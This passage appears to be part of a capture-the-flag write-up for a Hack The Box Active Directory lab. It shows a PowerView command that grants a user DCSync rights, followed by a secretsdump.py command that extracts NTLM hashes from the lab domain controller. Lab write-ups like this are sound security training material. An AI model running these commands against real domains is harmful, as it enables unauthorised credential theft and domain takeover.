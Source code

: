 - [Domain Enumeration + Exploitation](https://burmat.gitbook.io/security/hacking/domain-exploitation)

![](./IMG/56.png)

```
Add-DomainObjectAcl -Credential $creds -TargetIdentity htb.local -PrincipalIdentity hacker -Rights DCSync
```

![](./IMG/44.png)

7. So, back to my kali host, using secresdump to get the NTLM hash 

```
secretsdump.py htb.local/hacker:hackhack@10.129.95.210
```

![](./IMG/57.png)
